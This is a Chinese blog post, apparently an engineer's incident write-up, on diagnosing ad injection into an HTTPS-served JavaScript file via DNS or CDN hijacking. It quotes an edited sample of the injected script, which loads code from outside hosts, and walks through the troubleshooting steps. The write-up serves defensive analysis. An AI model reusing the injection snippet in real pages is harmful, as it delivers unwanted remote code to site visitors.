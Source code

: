```yaml
---
layout: post
title: HTTPS DNS劫持案例
tags: 技术 原创
---
```


今天早晨到公司后，同事反馈页面中存在注入广告。打开同事提供的页面链接后，第一次没有发现，刷新了大约10次终于发现了这个广告。

顺藤摸瓜找到被劫持的url，请求报文如下：
{% highlight text %}
Request URL:https://domain-a.com/stats.js
Request Method:GET
Status Code:200 OK
Remote Address:111.111.111.19:443
{% endhighlight %}

https协议的js文件被篡改成如下信息（示意文件，做了删改排版）：
{% highlight js %}
var a=document.createElement("script");
a.src="http://domain-b/entrance.js";
document.getElementsByTagName("head")[0].appendChild(a);

var b=document.createElement("script");
b.src="http://222.222.222.235/?url=domain-a.com/stats.js";
document.getElementsByTagName("head")[0].appendChild(b);
{% endhighlight %}

这是典型的js劫持，但这次HTTPS被劫持是**中间人劫持**呢？还是**证书泄露**？或者是其他情况？拉来安全的同事一起分析被劫持的页面请求现场。

HTTPS的静态文件被劫持，可能存在的情况主要有下面三种情况：

1. 证书泄露（被劫持的js文件是一个大公司的文件，证书泄露可能性较小）；
2. 中间人劫持；
3. CDN回源路径中存在劫持。

## 排查步骤如下

1、打开新的浏览器窗口，重复请求被劫持的链接

结果：同一个js未被劫持，再一次验证劫持是随机发生的。

2、打开[站长之家Ping查询](http://ping.chinaz.com/)和[IPIP Ping查询](http://www.ipip.net/ping.php)查询`domain-a.com`域名DNS结果，确认是否存在`111.111.111.19`这个IP。

结果：两个查询都不存在，疑似是劫持者服务器IP。

3、绑定本地hosts文件，再次请求被劫持的URL`https://domain-a.com/stats.js`
{% highlight text %}
111.111.111.19 domain-a.com
{% endhighlight %}
结果：劫持内容复现，证书签名正确，排除中间人劫持，进一步怀疑是CDN回源路径中存在劫持。

## 基本概念
1. [劫持](https://en.wikipedia.org/wiki/DNS_hijacking)
